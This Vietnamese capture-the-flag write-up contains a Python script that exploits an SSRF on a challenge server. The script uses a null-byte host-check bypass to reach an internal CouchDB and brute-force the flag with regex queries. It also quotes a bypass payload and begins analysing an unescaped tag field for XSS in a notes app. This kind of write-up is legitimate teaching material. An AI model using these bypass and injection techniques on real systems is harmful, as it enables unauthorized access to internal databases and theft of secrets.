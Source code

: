 ### Solution
Sử dụng %00 để bypass check host còn phần sau vẫn như bài trước.

### Payload
```py
import string
import requests
import json

url = 'https://requester-strikes-back.mc.ax//testAPI'
flag = ''

for i in range(1,50):
    for char in string.ascii_letters+string.digits+'{}_':
        print(char,end="\r")
        temp = flag + char
        params = {"url":"http://taidh1:taidh1@couchdb%00@cc:5984//taidh1/_find","method":"POST","data":json.dumps({"selector":{"flag":{"$regex":f"^{temp}"}}})}
        r = requests.get(url=url,params=params)
        # print(r.text)
        if "Something went wrong" in r.text:
            flag += char
            print(flag)
            break
```
- Mình cũng thấy có một số payload được các bạn share lên như `@%63ouchdb%3a5984@lol`

## Challenge notes
Mình sẽ không phân tích code từng đoạn một mà sẽ nói sơ qua follow code của bài này và chỗ exploit nhé. Chương trình có phần register và login nhưng các đoạn đó chỉ là code bình thường và mình không phát hiện lỗi trong đó.
Có 3 router chính là `/api/notes`, `api/notes/}${user}` và `/view/${user}`
File `modules/api-plugin.js`
```js
db.register('admin', crypto.randomBytes(32).toString('hex'));
db.addNote('admin', {
  body: process.env.FLAG,
  tag: 'private',
});
```
Đoạn code trên thì chúng ta có thể thấy được flag nằm trong body của account admin.
File `view/index.js`
```js
for (const note of notes) {
    // this one is controlled by user, so prevent xss
    const body = note.body
      .replaceAll('<', '&lt;')
      .replaceAll('>', '&gt;')
      .replaceAll('"', '&quot;')
      .replaceAll('\'', '&#39;');
    // this one isn't, but make sure it fits on page
    const tag =
      note.tag.length > 10 ? note.tag.substring(0, 7) + '...' : note.tag;
    // render templates and put them in our array
    const rendered = populateTemplate(template, { body, tag });
    renderedNotes.push(rendered);
  }
```
Đoạn code trên là sau khi nhận tham số `body` và `tag`. Ở body nếu có chứa các `<>"'` thì sẽ bị replace với các HTML entities tương ứng. tag thì không bị filter nhưng bị check length, không được vượt quá 10, nếu > 10 thì chỉ lấy 7 kí tự và cộng thêm ...
